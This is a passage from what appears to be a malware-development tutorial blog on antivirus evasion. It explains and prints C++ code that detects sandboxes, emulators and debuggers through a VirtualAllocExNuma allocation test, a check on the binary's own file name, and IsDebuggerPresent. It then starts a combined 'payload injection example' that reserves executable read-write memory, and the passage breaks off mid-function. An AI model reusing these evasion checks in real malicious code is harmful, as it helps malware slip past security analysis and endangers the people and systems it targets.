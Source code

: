 ```cpp
//...
```

What we're doing here is trying to allocate memory with `VirtualAllocExNuma()`, and if it fails we just exit immediately.
Otherwise, execution will continue.   

Since the code is emulated it is not started in a process which has the name of the binary file. That's why we check that first argument contains name of the file:   
```cpp
// what is my name???
if (strstr(argv[0], "hack2.exe") == NULL) {
  printf("What's my name? WTF?? :(\n");
  return -2;
}
```

It's possible to simply "ask" the operating system if any debugger is attached. `IsDebuggerPresent` function basically checks `BeingDebugged` flag in the `PEB`:   
```cpp
// "ask" the OS if any debugger is present
if (IsDebuggerPresent()) {
  printf("attached debugger detected :(\n");
  return -2;
}
```

Dynamic malware analysis - or sandboxing - has become the centerpiece of any major security solution. At the same time, almost all variants of current threats include some kind of sandbox detection logic.   

So we can try to combine all this tricks (`hac2.cpp`):    
```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <memoryapi.h>

typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE         hProcess,
  LPVOID         lpAddress,
  SIZE_T         dwSize,
  DWORD          flAllocationType,
  DWORD          flProtect,
  DWORD          nndPreferred
);

// memory allocation work on regular PC but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = (pVirtualAllocExNuma)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), NULL, 1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
    return false;
  } else {
    return true;
```